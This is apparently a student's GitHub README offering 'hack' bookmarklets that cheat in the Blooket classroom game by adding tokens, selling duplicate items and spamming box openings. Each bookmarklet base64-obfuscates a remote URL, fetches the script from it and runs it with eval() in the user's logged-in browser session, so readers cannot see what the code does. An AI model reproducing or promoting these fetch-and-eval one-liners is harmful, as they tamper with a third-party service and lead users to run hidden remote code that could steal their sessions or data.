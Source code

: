 # Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats                                 (made by a student who named jack and hes so cool omg!1 credit to @P1uffy)



# Here are the big juicy hecks collection
these are all useful bookmarklets,paste them into bookmark, make sure javascript: are in the initial.
# add tokens!11! exp also !111
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
# sell dupe blooks!11111!111!!!!!!!!!
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# spam box!11
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# col funni -1 fps tutorial thing i guess
https://user-images.githubusercontent.com/94798292/142773350-97175967-1b33-42ec-acf0-87f0a88075d0.mp4

